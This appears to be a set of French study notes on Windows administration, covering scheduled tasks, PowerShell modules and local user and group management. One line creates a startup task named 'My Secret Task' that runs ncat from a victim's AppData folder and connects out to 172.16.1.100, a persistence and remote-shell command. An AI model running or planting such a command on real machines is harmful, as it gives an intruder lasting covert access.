 ##  Scheduled Tasks  

`SCHTASKS /Query /V /FO list`

-    /create: pour lui dire ce que nous faisons
-    /sc: nous devons établir un calendrier
-   /tn: nous devons définir le nom
-  /tr: nous devons lui donner une action à prendre
  

 `chtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"`

 ##    Powershell

Tache connu utlisé sur powerShell :

Provisioning des serveurs et installation des rôles de serveur
Création de comptes utilisateur Active Directory pour les nouveaux employés
Gestion des autorisations de groupe Active Directory
Désactivation et suppression des comptes utilisateurs Active Directory
Gestion des autorisations de partage de fichiers
Interagir avec Azure VMs AD et Azure
Création, suppression et surveillance des répertoires et des fichiers
Collecte d'informations sur les postes de travail et les serveurs
Configuration des boîtes de réception Microsoft Exchange pour les utilisateurs (dans le cloud et/ou sur site)

###    command:

get-command
get-command -verb get
get-location

### Module 

get-module
find-module
Import-Module PowerShellGet
Find-Module -Name AdminToolbox
Install-Module -Name AdminToolbox -RequiredVersion 11.0.8

### gestion des users & Group

Type de compte :
----------------
 
Administrator	
Default Account	
Guest Account	
WDAGUtility Account


get-localgroup
get-localuser
New-LocalUser -Name "JLawrence" -NoPassword
$Password = Read-Host -AsSecureString
Set-LocalUser -Name "JLawrence" -Password $Password -Description "CEO EagleFang"
Get-LocalGroupMember -Name "Users"
Add-LocalGroupMember -Group "Remote Desktop Users" -Member "JLawrence"
Get-LocalGroupMember -Name "Remote Desktop Users"
